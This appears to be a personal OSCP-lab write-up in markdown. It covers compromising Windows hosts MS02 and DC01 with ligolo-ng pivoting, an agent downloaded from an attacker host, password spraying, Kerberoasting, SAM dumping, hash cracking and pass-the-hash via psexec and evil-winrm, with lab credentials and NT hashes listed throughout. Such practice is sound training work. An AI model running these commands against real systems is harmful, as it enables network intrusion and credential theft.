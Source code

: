 # MS02
- 10.10.158.142
## Connect
- connected through MS02 via ligolo-ng
```bash
proxy -selfcert		# KALI start ligolo-ng

curl.exe http://192.168.45.210/ligolo_agent.exe -o agent.exe        # WIN copy agent to windows target

./agent.exe -connect 192.168.45.210:11601 -ignore-cert       

session # KALI
autoroute
select subnet/route you want access to
create a new interface, start tunnel

# CLeanup if it gets fucked up
iflist
ifdel --name name_of_int
```

## CONNECTED!!
- quick nmap 
```
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
5985/tcp open  wsman

nxc smb 10.10.158.142 -u 'Eric.Wallows' -p 'EricLikesRunning800' --shares

 10.10.158.142:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
```
We were able to update our user.txt loot with a full directory users list 
```bash 
nxc smb 10.10.158.140 -u 'Eric.Wallows' -p 'EricLikesRunning800' --users-export ./oscp_users.txt

# password spray, not successful
nxc smb 10.10.158.142 -u users.txt  -p passwords.txt  --continue-on-success

# trying asreproast
impacket-GetNPUsers -dc-host dc01.oscp.exam -dc-ip 10.10.158.140 -usersfile ./loot/oscp_users.txt -request -format hashcat -outputfile asreproast.hash oscp.exam/

# attempted password spray via MSSQL, failed
nxc mssql 10.10.158.142 --local-auth -u 'sa'  -p  /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding

# Attempt sql connection to 10.10.158.142
impacket-mssqlclient Eric.Wallows:EricLikesRunning800@10.10.158.142  -windows-auth
# Success!

SELECT * FROM msdb.information_schema.tables;
EXECUTE sp_configure 'show advanced options', 1;
# we don't have permissions for XP_CMDSHELl


```

```

# Example with smbclient
smbclient \\\\192.168.110.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
dir
get secrets.txt

# SYSTEM shell    0000000 bit is for the LM hash, which is empty
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.110.212
hostname
ipconfig
whoami
exit

### from MS01 mimikats sekurlsa  #####
celia.almeda:e728ecbadfb02f51ce8eed753f3ff3fd
Mary.Williams:9a3121977ee93af56ebd0ef4f527a35e

PtH?
impacket-psexec -hashes 00000000000000000000000000000000:e728ecbadfb02f51ce8eed753f3ff3fd celia.almeda@10.10.158.142 
# this worked but no rights?
smbclient \\\\10.10.158.142\\secrets -U celia.almeda --pw-nt-hash e728ecbadfb02f51ce8eed753f3ff3fd

# kerberroast
 impacket-GetUserSPNs -dc-host dc01.oscp.exam -dc-ip 10.10.158.140  oscp.exam/Eric.Wallows:'EricLikesRunning800' -request > kerberroast.hash

```
This cracked the web_svc account.
Adding to creds
web_svc:Diamond1
-  OMG FUCKING FINALLY!!
---

was able to use evil-winrm, to Pass-The-Hash of one of the users we dumped of ms01 but were unable to crack

---

```bash

evil-winrm -u celia.almeda  -H 'e728ecbadfb02f51ce8eed753f3ff3fd'  -i 10.10.158.142		# SUCCESS!!
# evil-winrm has build in upload functionality, using that instead .. 
# Upload is from directory evil-winrm was luanched in
upload winPEASx64.exe .

```

### pivotception!
listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:4445 --tcp
IP : 10.10.158.142 
The pivot worked,  amazing
curl.exe http://10.10.158.141:30000/powercat.ps1 -o powercat.ps1

found SAM and SYSTEM in old windows backup/upgrade 
```
*Evil-WinRM* PS C:\windows.old\windows\system32> download SAM
*Evil-WinRM* PS C:\windows.old\windows\system32> download SYSTESM

secretsdump.py -sam SAM -system SYSTEM LOCAL

# can try the PTH command from the saisathvi1-oscp-cheetsheet
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe

-U JEEVES/administrator	Username/Domain	Specifies the user and domain for authentication.
%aad3b43...:e0fb1fb...	Hash Credentials	This is the crucial part: the NTLM hash pair used for authentication. The format is typically [LM_Hash]:[NT_Hash].
//10.129.26.210	Target Host	The IP address of the remote Windows machine where the command will be executed.
cmd.exe	Remote Command	The command to execute on the remote Windows machine. cmd.exe will launch a command-line shell session on the target.
```

# Attempting to crack.. striped leading LM piece and reomved trailing ::: 
john --wordlist='/home/kali/hacking/rockyou.txt'  --rules=best64 fixed.hashes --format=NT  
hashcat -m 1000  fixed.hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# doesn't seem crackable.. letts try pth

we have the fucking hash for Tom_admin..!!  Maybe we can evil_winrm with these hashes to this box.. lets try

###############
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
######################

evil-winrm -u tom_admin -H '4979d69d4ca66955c075c41cf45f24dc'  -i 10.10.158.142

Holy shit it workeD!!!!!  I love evil-winrm


   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.158.142
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.158.254
*Evil-WinRM* PS C:\Users\tom_admin\Documents> hostname
MS02
*Evil-WinRM* PS C:\Users\tom_admin\Documents> whoami
oscp\tom_admin
*Evil-WinRM* PS C:\Users\tom_admin\Documents> 

Looking for a proof or something.. nothing.. fuck me
Get-ChildItem -Path C:\ -Include flag.txt, proof.txt,local.txt -Recurse -ErrorAction SilentlyContinue

# on DC!
evil-winrm -u tom_admin -H '4979d69d4ca66955c075c41cf45f24dc'  -i 10.10.158.140


*Evil-WinRM* PS C:\Users\administrator\desktop> hostname
DC01
*Evil-WinRM* PS C:\Users\administrator\desktop> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.158.140
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.158.254
*Evil-WinRM* PS C:\Users\administrator\desktop> whoami
oscp\tom_admin
*Evil-WinRM* PS C:\Users\administrator\desktop> cat proof.txt
56298463d22beb0398907ea0d5e387a4






